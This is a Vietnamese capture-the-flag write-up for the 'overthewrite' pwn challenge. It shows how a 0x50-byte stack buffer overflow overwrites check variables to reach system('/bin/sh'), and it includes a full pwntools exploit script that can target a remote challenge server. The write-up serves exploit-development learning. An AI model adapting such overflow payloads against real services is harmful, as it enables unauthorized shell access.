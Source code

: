 Giờ ta sẽ nhìn sơ qua file binary được cung cấp và các chế độ bảo vệ:

![image](https://user-images.githubusercontent.com/114044703/213360650-ef1146e6-5afd-4672-92f7-43bac4a32f3c.png)

![image](https://user-images.githubusercontent.com/114044703/213362730-bb6de0e8-891f-4d91-8149-7817fa216624.png)


Vậy chúng ta sẽ làm việc với file binary 64 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập key khi sai thì dừng chương trình.

![image](https://user-images.githubusercontent.com/114044703/213618940-7c2d504d-855d-4482-8d42-61c0d1cc96d1.png)

![image](https://user-images.githubusercontent.com/114044703/213618919-9caebee7-cceb-4504-bf50-1ab9d29ff439.png)

Sau khi đọc hàm main từ trình ghidra ta thấy chương trình sẽ cho ta nhập 0x50 byte vào biến input sau đó kiểm tra xem num1, num2, num3, welcome có đúng điều kiện không, nếu có thì thực thi system("/bin/sh") không thì kết thúc chương trình

#BUG: Ta nhận thấy input được ghi vào 0x50 dù không đủ để đè save rip nhưng đủ để có thể đè lên biến num1, num2, num3, welcome.

Ý tưởng: 
  - Vậy ta có thể sử dụng lỗi buffer over flow ghi lại num1, num2, num3 và welcome để có thể thực thi system("/bin/sh") 

Ta sẽ khai thác vơi những dữ liệu trên:
```
from pwn import *
debug=1

if debug:
	t=process('./overthewrite')
	#gdb.attach(t,api=True)
else:
	t=remote("159.89.197.210",9992)
	
offset1=0x58-0x20
offset2=0x58-0x18
offset3=0x58-0xc
offset=0x58-0x38

payload=b"A"*(offset)+p64(0x20656d6f636c6557)+p64(0x4353434b206f74)  #Welcome to KCSC
payload=payload.ljust(offset1,b"A")
payload+=p64(0x215241104735f10f)
payload=payload.ljust(offset2,b"A")
payload+=p64(0xdeadbeefcafebabe)
payload=payload.ljust(offset3,b"A")
payload+=p64(0x13371337)

t.send(payload)
t.interactive()
```

Sau khi chạy file:

![image](https://user-images.githubusercontent.com/114044703/213362417-470b3227-4a32-4519-b618-a2fffce4528a.png)





